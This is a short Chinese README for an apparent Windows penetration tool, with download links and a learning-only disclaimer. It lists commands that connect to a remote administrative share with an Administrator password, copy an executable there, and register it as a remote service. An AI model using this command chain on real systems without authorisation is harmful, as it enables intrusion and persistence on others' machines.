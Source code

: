 # Windows系统渗透工具

#### 前言
本文件的其他语言在[这里](https://docs.qq.com/s/NHLnUCu6mkoMtfbAq_AaXW)，可自提

#### 介绍
本产品可以让用户测试自己的电脑会不会被入侵，仅供学习！
警告：未进允许的渗透是违法的，与作者无关！


#### 程序说明
本程序只是将最常见的渗透方法做了总结，并不能拿来当作专业软件来使用。本产品是完全免费的（但不包括以后收费），更没有什么破解版。

#### 安装和运行
本产品是免安装运行的，可[点我](https://gitee.com/worm_ruchong/Windows-infiltration-tool/releases)下载，或者在[蓝奏•云储存|密码：msdn](https://wormdownload.lanzoum.com/b03jr8tif)中自主下载

#### 最常见的几种渗透
1.连接共享目录

```
net use \\192.168.181.1\c$\ 123456 /user:Administrator
```
2.复制文件

```
copy 1.exe \\192.168.181.1\C$\1.exe
```
3.创建启动项(服务类)

```
net use \\192.168.181.1\ipc$ 123456 /user:Administrator
sc \\192.168.181.1 create start binpath="c:\1.exe" displayname="start"
```

worm蠕虫版权所有©，有侵必究！
